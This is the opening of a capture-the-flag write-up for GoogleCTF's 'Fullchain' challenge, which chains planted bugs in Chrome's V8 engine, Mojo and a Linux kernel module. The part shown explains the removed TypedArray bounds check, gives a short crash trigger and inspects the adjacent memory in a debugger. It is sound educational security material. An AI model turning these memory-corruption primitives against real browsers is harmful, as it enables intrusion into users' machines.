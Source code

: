 # Challenge description

```
Fullchain

Do you have what it takes to pwn all the layers?
```

* Category: Pwn
* Points: 326
* Solves: 15

## Introduction

Last weekend it was GoogleCTF weekend again :). I didn't have much time to
spend on it this year; but I took a quick look at `Fullchain`. This challenge
comes with two patches for chrome and a linux kernel module (with source).
Together these introduce three vulnerabilities.

1. An out of bounds write in a TypedArray
2. Mojo out of bounds/read write
3. Linux kernel UAF

Reaching the flag required a full chain of three exploits.

## Exploiting the renderer to activate Mojo bindings

The bug is introduced in `v8_bug.patch`:

In `TypedArrayPrototypeSetTypedArray` an important bounds check is removed:

```
CheckIntegerIndexAdditionOverflow(srcLength, targetOffset, targetLength)
    otherwise IfOffsetOutOfBounds;
// CheckIntegerIndexAdditionOverflow(srcLength, targetOffset, targetLength)
//     otherwise IfOffsetOutOfBounds;
```

This removes the bounds check when calling `set` on a TypedArray. The following
will then crash a debug build of `d8`:

```
d8> var a = new Uint8Array([0,0])
d8> a.set(a, 1)
abort: CSA_ASSERT failed: Torque assert 'countBytes <= target.byte_length -
startOffset' failed [src/builtins/typed-array-set.tq:270]
[../../src/builtins/typed-array-set.tq:92]
```

Since we can write out of bounds of the data buffer we immediately become
interested to discover what lies right after the data buffer of a TypedArray:

```
var a = new Uint8Array(new Array(4).fill(0xab));
%DebugPrint(a);

// Lots of output, but the important part is:
- map: 0x24fb082c24d9 <Map(UINT8ELEMENTS)> [FastProperties]
- data_ptr: 0x24fb08109c34

gef➤  x/xg 0x24fb08109c34
0x24fb08109c34:	0x082c24d9abababab
```
